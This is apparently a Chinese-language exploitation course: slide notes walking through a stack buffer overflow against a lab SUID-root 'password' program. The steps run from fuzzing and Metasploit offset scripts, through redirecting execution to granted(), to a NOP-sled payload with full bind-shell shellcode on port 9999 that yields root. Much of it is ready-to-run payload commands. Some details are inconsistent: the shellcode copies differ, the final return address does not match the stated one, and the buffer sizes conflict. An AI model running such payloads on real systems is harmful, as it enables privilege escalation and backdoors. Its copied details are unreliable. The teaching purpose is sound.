$ python -c 'print "A" * 1000' | ./password
Please enter the password: Access Denied!
Segmentation fault 
```

- 段错误是什么意思？
- 我们覆盖了哪些内容？
- 我们现在能做什么？

大写字母"A"通常用于检测缓冲区是否存在溢出漏洞，其对应的十六进制值为0x41，在查看寄存器与栈以查找覆盖痕迹时非常容易识别。尝试输入一堆大写字母A，看看是否能触发段错误。是否触发成功了？此时你尚未知道缓冲区的大小，因此可能需要输入足够多的A才能触发溢出。你可以使用Python或Perl等脚本语言简化操作，加快模糊测试的速度，尝试输入以下内容：

``` 
python -c 'print "A" * 1000' | ./password 
#This is the equivalent of manually typing in 1,000 A's! 
```

``` 
perl -e 'print "A" x 1000' | ./password 
#Perl equivalent to the above Python command. 
```

这次是否触发了段错误？如果触发了，这意味着什么？请记住，缓冲区在栈上分配完成后，其后方会存储重要数值，这些数值既用于访问栈上的数据，也用于被调用函数执行完毕后将控制权返回给调用函数。举个例子，如果缓冲区用于存储100字节数据，而我们写入了200个A，这些A就会覆盖保存的帧指针、返回指针以及栈上的其他变量。当函数执行末尾EIP访问返回指针地址0x41414141时，就会触发段错误，因为0x41414141是无效内存地址，不包含任何可执行指令。当我们发现存在这类情况时，就有多种利用方式可供选择。在进入下一页前，你可以先思考一些可行的利用方案。

## 密码程序（3）
- 下一步...
- 确定缓冲区大小
``` 
Dump of assembler code for function checkpw:
0x08048464 <+0>:	push %ebp
0x08048465 <+1>:	mov %esp,%ebp
0x08048467 <+3>:	push %edi
0x08048468 <+4>:	push %esi
0x08048469 <+5>:	sub $0x270,%esp
0x0804846f <+11>:	mov $0x8048630,%eax
0x08048474 <+16>:	mov %eax,(%esp)
0x08048477 <+19>:	call 0x8048350 <printf@plt>
0x0804847c <+24>:	lea -0x260(%ebp),%eax
0x08048482 <+30>:	mov %eax,(%esp)
0x08048485 <+33>:	call 0x8048360 <gets@plt>
```

> `lea -0x260` 对应608字节。此时如果要继续实施除拒绝服务攻击之外的其他攻击，我们需要完成几项准备工作。首先，确定缓冲区大小。任何尝试控制程序的攻击都需要知道栈上缓冲区的起止位置，以及会覆盖哪些其他字段。根据分配内存所使用的函数不同，确定该信息有多种可行方式。你也可以手动调整注入缓冲区的A的数量，尝试确定溢出的精确触发点。首先在你的`/home/deadlist`目录下启动GDB调试器，输入`gdb password`命令加载密码程序。首先输入`disas main`命令对`main()`函数进行反汇编。我们知道密码程序会要求输入密码，因此可以尝试找到用户输入的密码猜测值存储的位置。对`main()`函数反汇编后，我们发现了一个名为`checkpw()`的函数，看起来和我们的目标相关。`main()`中其他内容都没有接收用户输入的逻辑。现在输入`disas checkpw`命令对`checkpw()`函数进行反汇编。在反汇编出的函数头部，我们可以看到函数序幕，看到`%esp`被减去了`0x270`，转换为十进制是624字节。这不是专门分配给用户输入的缓冲区大小，但包含了该部分大小。再往下看几条指令，你会看到`lea -0x260(%ebp),%eax`指令，其后方紧跟一条对`gets()`函数的调用。由此我们可以推断，这就是我们要找的、发生溢出的目标缓冲区的位置。在新版GDB中，会直接给出负数值；在其他版本中，会给出补码形式的数值，例如`0xfffffda0`。这种情况下，你需要通过按位取反后加1将其转换为正数，再转换为十进制，得到608字节的值。这个值就是用户输入缓冲区的总大小，也包含了序幕中用于保存`%edi`和`%esi`寄存器值的`push %edi`和`push %esi`指令所占的空间。现在我们已经获取了这些信息，将其记录下来供后续使用。

## 另一种方案（1）—— 使用Metasploit脚本确定缓冲区大小：`pattern_create.rb`和`pattern_offset.rb`
- `pattern_create.rb`脚本可用于生成用作输入的特征字符序列
``` 
# ls pattern*
pattern_create.rb  pattern_offset.rb
# ./pattern_create.rb -l 700
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2
Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad... #Shortened for spacing
6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq41Au2Au3Au4Au5A
u6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8A
w9Ax0Ax1Ax2A 
```

有时可以使用一对简单的Metasploit脚本来确定漏洞程序的缓冲区大小。在你的Kali虚拟机中的`/usr/share/metasploit-framework/tools/exploit/`目录下，存放着`pattern_offset.rb`和`pattern_create.rb`两个脚本。请注意该路径可能会频繁变动，建议先确认路径是否正确。这些脚本可以生成一段连续的、唯一的ASCII文本字节流，可用于识别漏洞缓冲区的长度。只需使用指定的大小运行`pattern_create.rb`脚本即可：

``` 
./pattern_create.rb -l 700 
```

如幻灯片中所示，已经生成了一个700字节大小的字符块，我们可以将其作为输入传入程序。如果你想在课堂上运行这一步，需要借助Kali虚拟机，因为Metasploit未预装在Kubuntu虚拟机中。请注意幻灯片中展示的结果可能和你自己在虚拟机中看到的结果并不完全一致。


### 另一种选择 (2)
- 使用 Python 设置输入，以利用 Ruby 脚本生成的字符

```bash
$ python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7... #Shortened for spacing w0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5"' > /tmp/input1
```

```bash
(gdb) run < /tmp/input1
Starting program: /home/deadlist/password < /tmp/input1
Please enter the password:
Access Denied!
Program received signal SIGSEGV, Segmentation fault.
0x41347541 in ?? ()
```

```bash
$ ./pattern_offset.rb -q 41347541
[*] Exact match at offset 612
```

既然我们有了这 700 字节的独特字符块，就可以使用 Python 将其输入到程序中。我们只需将 Python 脚本的输出重定向到 "/tmp/input1" 文件。接下来，我们用 GDB 启动密码程序，并使用我们特殊的输入运行它。正如你在幻灯片上看到的，EIP 在内存地址 0x41347541 处发生了段错误。我们可以获取这个对应于 "pattern_create.rb" 脚本生成数据中特定位置的值，并将其输入到 "pattern_offset.rb" 脚本中。这样做时，我们得到了值 612。这与我们之前确定的缓冲区大小相符，包括缓冲区和 SFP 覆盖，从而到达返回指针。

使用 Ruby 模式脚本有时可能会带来问题，例如遇到无效的输入字符。输入验证或过滤以及其他问题可能导致脚本生成错误信息；但是，当你可以使用它们时，它们可以节省你的时间。`-s` 选项允许你指定希望排除的无效字符。

### 密码程序 (4)
- 继续...
- checkpw() 中的 granted() 函数

```asm
0x080484d9 <+117>: repz cmpsb %es:(%edi),%ds:(%esi)
0x080484ec <+136>: jne 0x80484f5 <checkpw+145>
0x080484ee <+138>: call 0x8048510 <granted>
```

```asm
Dump of assembler code for function granted:
0x08048510 <+0>:  push %ebp
0x08048511 <+1>:  mov %esp,%ebp
0x08048513 <+3>:  sub $0x18,%esp
0x08048516 <+6>:  movl $0x804868e,(%esp)
0x0804851d <+13>: call 0x8048370 <puts@plt>
```

对于我们的第一次攻击，来看 granted() 函数。如果你碰巧在 checkpw() 函数的下方查看，似乎有一个比较操作正在进行。汇编指令 `repz cmpsb %es:(%edi),%ds:(%esi)` 很可能是在比较用户提供的密码猜测值和真实密码。你可能会使用调试器提取真实密码，但那不是我们的目标。只需在比较指令的内存地址上设置一个断点，然后使用 `x/s $edi` 和 `x/s $esi` 分析 edi 和 esi 中持有的指针即可。如果密码未加密，strings 工具是另一个选择。

回到我们的目标：在比较指令之后不久是 `jne 0x80484f5` 指令，紧随其后的是 `call 0x8048510 <granted>` 指令。你可能已经猜到，这似乎是在说，如果比较的值不相等，则跳转到地址 0x80484f5 处的指令并退出；但如果相等，则调用 granted() 函数。因此，如果密码匹配，我们就调用 granted()，一切正常。

### 密码程序 (5)
- 继续...
- 将执行重定向到 granted()

```bash
$ python -c 'print "A" * 600' | ./password
Please enter the password:
Access Denied!
```

```bash
$ python -c 'print "A" * 608' | ./password
Please enter the password:
Access Denied!
Segmentation fault
```

```bash
$ python -c 'print "A" * 612 + "\x10\x85\x04\x08"' | ./password
Please enter the password:
Access Denied!
Access Granted
```

我们现在已经确定，让程序执行 granted() 函数似乎是一个不错的选择。如果你再次查看 checkpw() 函数的反汇编代码，你会看到 granted() 从地址 0x8048510 开始。这就是我们需要用来覆盖 checkpw() 函数中返回指针的地址。早些时候，我们了解到为用户密码分配的缓冲区大小为 608 字节。现在回到命令行使用 Python 来溢出缓冲区。在命令行，输入：

```bash
python -c 'print "A"*600' | ./password
```
执行后输出：
```
Please enter the password:
Access Denied!
```
#600 是我们的缓冲区大小，所以我们不期望这次会出现段错误，尽管我们破坏了保留的 ESI 值。

```bash
python -c 'print "A"*608' | ./password
```
执行后输出：
```
Please enter the password:
Access Denied!
Segmentation fault
```
看！这次我们引起了段错误！我们可能用空字节终止了保存的帧指针的最后一个字节，导致了崩溃。返回指针应该就在 612 字节之后。现在尝试在 612 字节的末尾附加 granted() 函数的地址。输入：

```bash
python -c 'print "A"*612 + "\x10\x85\x04\x08"' | ./password
```
执行后输出：
```
Please enter the password:
Access Denied!
Access Granted
```

成功了！我们刚刚在没有提供凭据的情况下，强行让程序执行了 granted() 函数！"\x10\x85\x04\x08" 是 granted() 函数的小端序格式地址。记住，我们必须反转字节的顺序，以便地址能够以正确的顺序正确地写入堆栈。"\x" 只是告诉处理器将其后的值视为十六进制或二进制字符串的一部分。在这个练习中，我们成功地运行了一个基于堆栈的缓冲区溢出，并用另一个函数的地址覆盖了返回指针。这可能会让我们获得应用程序的访问权限，但如果我们想尝试通过获取 root shell 来提升权限呢？

### 拿到 Root 了吗？(1)
- 让我们使用 "password" 程序来开一个后门！
- 讲师将介绍练习的目标，快速执行攻击以演示技术，然后由你独自完成相同的攻击
- 如果你实在需要，可以偷看答案，但必须在尝试自己创建解决方案之后
- 需要时使用提示！
- 尝试不同的落脚点

在这个练习中，你的目标是通过将 EIP 重定向到你的 shellcode 来获取 root 访问权限。Shellcode 是用汇编语言编写并用 NASM 等汇编器编译的程序。目标是在利用过程中将 shellcode 注入到运行的进程中，它作为有效负载，以便处理器可以执行它。Shellcode 这个名字源于这样一个事实：传统上，shellcode 最常用于在系统上打开一个管理 shell。我们在这个练习中使用的 shellcode 在本地系统上打开 TCP 端口 9999，并为任何使用 netcat 等工具连接到该端口的人提供管理 shell。它取自 Metasploit 项目。请记住，执行安全研究是一项需要你跳出框框思考的技能。直接查看答案不如自己解决问题有效。感到沮丧是漏洞研究和开发概念验证过程中的常见副作用。考虑与合作伙伴合作来确定解决方案。

### 拿到 Root 了吗？(2)
#### 要使用的工具：
- 你将要攻击 "password" 程序
- 继续以用户 "deadlist" 运行。你永远不需要 SU 到 "root"
- 程序以 SUID root 运行
- 你已经知道了缓冲区的大小！
- Shellcode 位于 /home/deadlist/shellcode.txt
- Shellcode 是转换为十六进制的汇编指令，通常目标是打开一个后门
- 使用你手头的任何工具来帮助你定位对象

你的目标是利用 password 程序打开一个端口并将 shell 绑定到该端口。在这些练习中，你永远不需要 SU 到 root。程序已经配置为以 SUID root 运行。在上一个练习中，你覆盖了 checkpw() 函数中的返回指针，将 EIP 重定向到执行 granted() 函数。这使你能够绕过身份验证。你已经知道返回指针的位置和缓冲区的大小。缓冲区中有足够的空间来容纳你的 shellcode，并将执行重定向到执行你的 shellcode。当你在本地系统上看到 TCP 端口 9999 正在监听时，你就知道你成功了。这可以通过运行 `netstat -ntl` 命令并检查 9999 是否在监听来验证。你可以使用我们介绍过的任何工具或你手头的任何其他工具。请记住，GDB、objdump、ltrace、nm、readelf 等工具都是你的朋友！你最大的朋友是耐心和注重细节。打开 TCP 端口 9999 的 shellcode 位于 /home/deadlist/shellcode.txt。在以下每张幻灯片上都有提示，显示你可能希望从哪里开始寻找。如果你觉得自己卡住了，这很有用。再次强调，在查看提示之前，请尝试自己想出解决方案。


## 拿到Root权限？(3)
### 提示1：定位栈指针（ESP）
- 使用GDB运行“password”程序
- 在提示输入密码的指令之后设置断点
- 记得使用字符A，在缓冲区中查找十六进制值41
- 使用GDB的“x”（examine，查看）命令：在断点和程序崩溃时，在GDB中尝试执行`x/20x $esp`

使用GDB运行password程序。在这个阶段，GDB是定位ESP指向地址的最佳工具。在提示输入密码的指令之后设置断点。记住上一道练习的内容，`gets()`函数会读取用户响应输入密码提示时所提供的数据。在附近设置断点就能达到目的！
记住，在GDB中设置断点的命令是`break <函数名>`或者`<地址>`。例如，如果你想为`checkpw()`函数设置断点，需要输入**break checkpw**。如果想为某个地址设置断点，例如，需要输入**break *0x08048432**。不要忘记星号，它告诉GDB将后面的值视为地址而非名称。
记得使用字符A，在缓冲区中查找十六进制值41。当提示输入密码时，记住字符A是很好的选择，因为在内存中很容易定位对应的值。一连串的A会在内存中生成`41414141...`，能帮助你确定缓冲区的起始位置。
GDB中的`x`命令也非常实用。x代表“examine（查看）”，可以打印内存地址、内存内容以及寄存器的内容。例如，你可以使用`x $esp`命令打印ESP寄存器当前存储的地址及其内容。`x/20x $esp`命令会打印从ESP寄存器所存地址开始的连续20个双字（DWORD）内存地址的内容。`x/20x`中的第二个x告诉GDB以十六进制格式显示内容，你提供的数值是要检查的双字（DWORD）数量。`x/20i`会显示这些地址对应的汇编指令；`x/20s`会显示这些地址存储的字符串。

## 拿到Root权限？(4)
### 提示2：确定大小
- 确定目标缓冲区的大小
- 你找到正在溢出的缓冲区的起始位置了吗？
- 你的shellcode有多大？
- 在shellcode之后需要多少字节的填充数据才能覆盖返回指针？
- 开始在命令行中使用Python进行实验，将你的shellcode、填充数据和返回指针都包含进去

希望你此时已经拿到了`checkpw()`函数分配缓冲区时ESP的地址。更理想的情况是，你已经找到了正在发生溢出的缓冲区的起始地址。这应该已经通过GDB解决了：输入一连串A之后再检查内存即可找到。现在你已经记录下这个内存地址，就知道了缓冲区溢出时要使用的返回指针的大致地址。记住，你要先把shellcode输入缓冲区，然后不断填充数据，直到可以覆盖返回指针的位置。shellcode的大小在`shellcode.txt`文件中已经给出，你也可以手动统计字节数。当你得知shellcode的大小后，就可以确定之后需要输入多少个A才能到达返回指针的精确位置。这里就需要输入缓冲区的起始地址了。
不要将shellcode直接紧挨着返回指针运行，因为在函数收尾阶段（procedure epilogue）或其他函数操作的过程中，数据经常会被覆盖（clobbered）。
```
Start of Buffer |----------------------------|---| End of Stack
shellcode AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA RP
Padding
```

## 拿到Root权限？(5)
### 提示3：搭建NOP雪橇
- 0x90是“无操作（No Operation）”的指令码，简称NOP
- 它指示处理器不执行任何操作，直接执行下一条指令
- 通过添加连续的NOP指令，可以提高攻击成功的概率
- 无需知道ESP的精确位置，也无需知道你要攻击的缓冲区的顶部的精确位置

0x90是“无操作（No Operation）”的指令码，简称NOP。使用它可以提高命中shellcode的概率。很难确定shellcode在内存中的精确位置，而使用0x90 NOP指令就不需要知道这个精确位置了。不过，只要你落在NOP雪橇的任意位置，就一定会命中shellcode。这是因为NOP指令只是告诉处理器不执行任何操作，直接跳转到下一条指令。NOP指令原本在处理器中用于计时，但非常适合用来提高漏洞利用成功运行的概率。
核心思路是：在缓冲区开头填充`\x90` NOP指令，接着放入shellcode，然后是填充数据，最后放入一个落在NOP雪橇范围内的内存地址作为返回指针。
```
Start of Buffer |---|------|------|------|------|------|------|---| End of Stack
\x90\x90\x90\x90 shellcode AAAAAAAAAAAAAAAA RP
NOPs Padding
```
不要把shellcode直接紧挨着返回指针，因为函数的生命周期内（例如过程序结尾阶段的指令）可能会覆盖这些数据。要确保shellcode和返回指针之间有填充数据。另外，即使你命中了NOP雪橇，也不是其中的每个地址都有效。这可能是因为边界对齐、数据被覆盖或者各种异常情况导致的。可以尝试多次调整着陆点、移动shellcode的位置，或者增加NOP指令的数量。

## 练习题解答：拿到Root权限？(1)
### 定位栈指针
```asm
Dump of assembler code for function checkpw:
0x8048464 <+0>:	push %ebp
0x8048465 <+1>:	mov %esp,%ebp
0x8048467 <+3>:	push %edi
0x8048468 <+4>:	push %esi
0x8048469 <+5>:	sub $0x270,%esp
0x804846f <+11>:	mov 0x8048630,%eax
0x8048474 <+16>:	mov %eax,(%esp)
0x8048477 <+19>:	call 0x8048350 <printf@plt>
0x804847c <+24>:	lea -0x260(%ebp),%eax
0x8048482 <+30>:	mov %eax,(%esp)
0x8048485 <+33>:	call 0x8048360 <gets@plt>
0x804848a <+38>:	lea -0x260(%ebp),%eax
(gdb) break *0x804848a
Breakpoint 1 at 0x804848a
```
> 断点已设置
我们此前已经知道，password程序的缓冲区（包含保存**ESI**和**EDI**寄存器的指令）总大小为608字节。现在我们需要找到`gets()`函数将我们的数据复制到缓冲区后，栈指针的大致位置。首先使用GDB启动password程序。我们需要在我们输入的数据已经存入缓冲区时对应的地址上设置断点，这样我们就能确定shellcode所在的大致位置。在GDB中输入`disas checkpw`，找到调用`gets()`的位置。该调用应位于`0x8048485`，下一条指令位于`0x804848a`。这看起来是设置断点的理想位置，这样我们就可以在`gets()`接收完用户输入的数据并将其存入缓冲区后，查看我们输入的A的起始位置。使用`break *0x804848a`命令在GDB中设置断点。

## 练习题解答：拿到Root权限？(2)
### 定位栈指针（续）
```bash
(gdb) run < <(python -c 'print "A" * 600')
```
```asm
Breakpoint 1, 0x0804848a in checkpw ()
(gdb) x/20x $esp
0xbffff450:	0xbfae7838	0x00001000	0x00000001	0x41020ff4
0xbffff460:	0x410005c9	0x41020ff4	0x41414141	0x41414171
0xbffff470:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff480:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff490:	0x41414141	0x41414141	0x41414141	0x41414141
```
该程序运行后从标准输入读取数据，不接受命令行参数。在GDB内部，我们可以使用以下语法重定向输入：`run < <(python -c 'print "A" * 600')`。启动GDB，确保你已在`gets()`函数调用之后的地址上设置了断点。准备好运行程序后，输入上述命令并按回车。此时我们输入的一连串A会作为输入传递给程序，你会看到断点在`0x804848a`处触发。此时输入`x/20x $esp`命令并按回车。可以看到栈指针指向`0xbffff450`。在地址`0xbffff468`处，我们看到值`0x41414141`，这是我们输入的A的起始位置。记住，不同系统上的内存地址可能略有差异。你也可以使用`p/x $ebp-0x260`命令来获取缓冲区的起始地址。


## 验证返回指针
- 真正的返回指针在哪里？
- 查看我们输入的A字符的末尾紧邻的位置
- 再查找该地址……这正是返回main()函数的指针！


那么我们如何知道要如何在栈上定位返回指针，又该如何验证它呢？在本页幻灯片中，我们先前已在地址0x804848a处设置了断点，该地址正好位于调用`gets()`函数的指令之后。当触发断点时，我们首先执行以下命令：
``` (gdb) x/wx $ebp+4 0xbffff6cc: 0x08048555 ```
如我们之前所讨论的，EBP寄存器总是会指向SFP（栈帧指针），因此我们知道，EBP指向的地址+4偏移处就是返回指针。我们可以看到打印出的返回指针值为0x8048555。随后我们使用`bt`（即backtrace，回溯）命令查看调用链：
``` (gdb) bt #0 0x0804848a in checkpw () #1 0x08048555 in main () ```
我们可以发现返回指针再次出现，指向main()函数。最后我们执行以下命令：
``` (gdb) x/i 0x8048555-5 0x8048550 <main+39>: call 0x8048464 <checkpw> ```
这直接证明了返回指针地址的正上方，正是我们要返回的checkpw()函数的调用指令。我们之所以减去5字节，是因为**call**指令的长度正好是5字节。至此我们已经确认0x8048555确实是返回指针，同时也演示了如何通过引用EBP+4、结合回溯命令查看调用链，轻松在栈上定位返回指针。

## 练习题解答：拿到Root权限？（3）
- 确定精确的大小：
  - 使用612个A字符
    ``` (gdb) run < <(python -c 'print "A" * 612') Program received signal SIGILL, Illegal instruction. 0x08048500 in checkpw () ```
  - 使用616个A字符
    ``` (gdb) run < <(python -c 'print "A" * 616') Program received signal SIGSEGV, Segmentation fault. 0x41414141 in ?? () ```
> 我们覆盖了返回指针，现在可以控制EIP寄存器了！

### 确定精确大小
如果你仍停留在上一个断点处，输入`c`继续执行程序。此时程序会正常退出，这是符合预期的：因为缓冲区大小为600字节，我们此时还没有覆盖到返回指针。如前所述，我们可能已经覆盖了其他重要的栈数据。现在我们需要快速验证返回指针是在哪个位置被覆盖的，输入以下命令：
``` (gdb) run < <(python -c 'print "A" * 612') ```
这是另一种在GDB中执行Python脚本、并将其作为输入传递给目标程序的方法。此时程序应该会出现段错误。注意，此时显示的地址是0x08048500而非0x41414141，地址末尾的00很可能是字符串拷贝函数执行了空字符终止导致的。我们此时覆盖的是SFP（栈帧指针），偶然在返回指针的末尾写入了00，这才导致了段错误。我们已经非常接近目标了。最后一次通过GDB运行程序，输入616个A字符，现在你应该会在`?? ()`中看到0x41414141了。我们现在知道，恰好输入612字节的内容后，接下来的4字节就会覆盖返回指针。你也可以通过查看`checkpw()`调用之后`main()`函数的下一条指令的地址，再检查对应内存来定位返回指针。当输入608个A字符时，你仍然可以控制程序执行，但这其实是`main()`函数中的`return`指令导致的。

## 练习题解答：拿到Root权限？（4）
### 发起攻击！
``` $ python -c 'print "\x31\xdb\x53\x43\x53\x6a\x02\x6a\x66\x58\x99\xe1\xcd\x80\x96\x43\x52\x66\x68\x27\x0f\x66\x53\x89\xe1\x66\x58\x50\x51\x56\x89\xe1\xcd\x80\xb0\x66\xd1\xe3\xcd\x80\x52\x52\x56\x43\x89\xe1\xb0\x66\xcd\x80\x93\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" + "A"*528 + "\x48\xf0\xff\xbf"' | ./password ```
请输入密码：访问被拒绝！段错误 - **TCP 9999端口？没有。**
``` $ netstat -na | grep 9999 $ ```
此时我们需要选择合适的shellcode。进入你的`/home/deadlist`目录，输入**cat shellcode.txt**查看可选选项。最顶部的那项会开启9999端口的后门，共有两种格式：顶部的是要粘贴到脚本中使用的，底部的是要粘贴到命令行中使用的，我们使用第二种。你可以看到该shellcode的大小为84字节。我们的缓冲区大小为600字节，612字节处开始是4字节的返回指针。通过简单计算就能知道我们需要多少填充数据：把shellcode放在缓冲区顶部，后面跟上足够的A字符凑到612字节，最后再填入我们猜测的shellcode起始地址。计算式如下：
到返回指针的612字节 - 84字节shellcode = 528字节填充数据

试试这个方法！我们已经从shellcode.txt文件中拿到了shellcode：
``` "\x31\xdb\x53\x43\x53\x6a\x02\x6a\x66\x58\x99\xe1\xcd\x80\x96\x43\x52\x66\x68\x27\x0f\x66\x53\x89\xe1\x66\x58\x50\x51\x56\x89\xe1\xcd\x80\xb0\x66\xd1\xe3\xcd\x80\x52\x52\x56\x43\x89\xe1\xb0\x66\xcd\x80\x93\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" ```
我们已经拿到了需要的528个A字符作为填充：
``` "A"*528 ```
我们猜测缓冲区起始地址为0xbffff048。现在用Python把所有内容拼接起来，尝试攻击`password`程序。（注意以下所有内容都在同一行中。）
``` python -c 'print "\x31\xdb\x53\x43\x53\x6a\x02\x6a\x66\x58\x99\xe1\xcd\x80\x96\x43\x52\x66\x68\x27\x0f\x66\x53\x89\xe1\x66\x58\x50\x51\x56\x89\xe1\xcd\x80\xb0\x66\xd1\xe3\xcd\x80\x52\x52\x56\x43\x89\xe1\xb0\x66\xcd\x80\x93\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" + "A"*528 + "\x48\xf0\xff\xbf"' | ./password ```
现在检查你的计算机是否正在监听TCP 9999端口。看起来并没有。这说明我们没有猜中shellcode的精确位置。虽然我们可以继续猜下去，但让我们提高一下成功的概率。


## 练习题解答：拿到Root权限？（5）
### 提高成功率
``` (gdb) break *0x804848a Breakpoint 1 at 0x804848a (gdb) run < <(python -c 'print "\x90" * 300 + "\x31\xdb\x53\x43\x53\x6a\x02\x6a\x66\x58\x99\x89\xe1\x... #Shortened for space \x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" + "A"*228 + "RRRRR") Breakpoint 1, 0x0804848a in checkpw () (gdb) x/20x $esp+300 0xbffff57c: 0x90909090 0x90909090 0x90909090 0x90909090 0xbffff58c: 0x90909090 0x90909090 0x4353db31 0x6a026a53 0xbffff59c: 0x89995866 0x9680cde1 0x68665243 0x53660f27 0xbffff5bc: 0x666ae189 0x56515058 0x80cde189 0xe3d166b0 0xbffff5ac: 0x525280cd 0x1e894356 0x80cd66b0 0x59026a93 ```
如前所述，空操作（NOP，No Operation）指令能帮助我们提高基于栈的溢出攻击的成功率。请记住，NOP指令的作用就是告诉处理器不执行任何操作，直接跳转到下一条指令。十六进制数值90就是NOP的操作码，我们可以用它来提升本次攻击的成功率，比我们上一次的尝试成功率更高。现在让我们把之前用作填充的一部分A字符替换为NOP指令。当然，我们现在要构造的漏洞利用数据顺序是：开头是NOP指令序列，接着是我们的shellcode，之后是A字符填充，最后是我们猜测的返回指针地址。如果我们可以将返回指针覆盖为落在NOP滑板（NOP sled）范围内的地址，程序就会滑向并执行我们的shellcode。把我们之前对shellcode起始地址的猜测0xbffff048改为`"RRRRR"`作为占位符，直到我们找到更合适的地址为止。现在我们想要构造的数据如下：
``` (gdb) break *0x804848a Breakpoint 1 at 0x804848a (gdb) run < <(python -c 'print "\x90" * 300 + "\x31\xdb\x53\x43\x53\x6a\x02\x6a\x66\x58\x99\x89\xe1\x... #Shortened for space \x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" + "A"*228 + "RRRRR") ```
当触发断点时，我们的数据已经被复制到内存中，此时我们输入以下命令：
``` (gdb) x/20x $esp+300 ```
这条命令会让我们看到NOP滑板中靠近shellcode位置的内存内容。你可以看到幻灯片上的箭头指向内存地址0xbffff58c，我们将用这个地址覆盖返回指针，希望以此触发shellcode执行。


## **练习解答：拿到Root权限？（6）**
```bash
python -c 'print "\x90" * 300 + "\x31\xdb\x53\x43\x53\x6a\x02\x6a\x66\x58\x99\x89\xe1\xcd\x80\x96\x43\x52\x66\x68\x27\x0f\x66\x53\x89\xe1\x6a\x66\x58\x50\x51\x56\x89\xe1\xcd\x80\xb0\x66\xd1\xe3\xcd\x80\x80\x93\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" + "A"*228 + "\x8c\xf5\xff\xff"' | ./password &
```
<再次按Enter键>
```bash
deadlist@deadlist:~$ netstat -na |grep 9999
tcp        0      0 0.0.0.0:9999             0.0.0.0:*                LISTEN
deadlist@deadlist:~$ whoami
root
```
我们成功入侵了！
### **重点讲解**
现在我们有了可以用来覆盖返回指针的地址，接下来组合我们的攻击载荷。注意要退出调试器，因为调试器会降低你的权限：
```bash
python -c 'print "\x90" * 300 + "\x31\xdb\x53\x43\x53\x6a\x02\x6a\x66\x58\x99\x89\xe1\xcd\x80\x96\x43\x52\x66\x68\x27\x0f\x66\x53\x89\xe1\x6a\x66\x58\x50\x51\x56\x89\xe1\xcd\x80\xb0\x66\xd1\xe3\xcd\x80\x80\x93\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" + "A"*228 + "\x8c\xf5\xff\xff"' | ./password &
```
<再次按Enter键>
```bash
deadlist@deadlist:~$ netstat -na |grep 9999
tcp        0      0 0.0.0.0:9999             0.0.0.0:*                LISTEN
deadlist@deadlist:~$ nc.traditional 127.0.0.1 9999
whoami
root
```
